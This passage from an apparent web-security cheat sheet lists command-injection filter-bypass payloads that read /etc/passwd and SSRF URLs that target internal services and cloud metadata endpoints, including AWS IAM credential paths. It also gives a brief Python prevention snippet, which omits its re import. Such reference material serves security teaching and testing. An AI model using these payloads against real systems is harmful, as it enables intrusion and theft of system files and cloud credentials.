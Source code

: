 **Bypass Filters:**
```bash
# Spaces
cat</etc/passwd
{cat,/etc/passwd}
cat$IFS/etc/passwd

# Quotes
c'a't /etc/passwd
c"a"t /etc/passwd

# Backslashes
c\at /etc/passwd

# Wildcards
cat /etc/pass*
cat /???/passwd
```

### Prevention

```python
import subprocess
import shlex

# Use array instead of shell=True
subprocess.run(['ping', '-c', '4', user_input])

# Validate input
if re.match(r'^[a-zA-Z0-9.-]+$', host):
    subprocess.run(['ping', '-c', '4', host])
```

## 🌐 SSRF (Server-Side Request Forgery)

### Attack Examples

**Basic SSRF:**
```
http://example.com/fetch?url=http://localhost:22
http://example.com/fetch?url=http://127.0.0.1:6379
http://example.com/fetch?url=http://192.168.1.1/admin
```

**AWS Metadata:**
```
http://example.com/fetch?url=http://169.254.169.254/latest/meta-data/
http://example.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

**Cloud Metadata Services:**
```bash
# AWS
http://169.254.169.254/latest/meta-data/

# Google Cloud
http://metadata.google.internal/computeMetadata/v1/

# Azure
http://169.254.169.254/metadata/instance?api-version=2021-02-01

# DigitalOcean
http://169.254.169.254/metadata/v1/
```
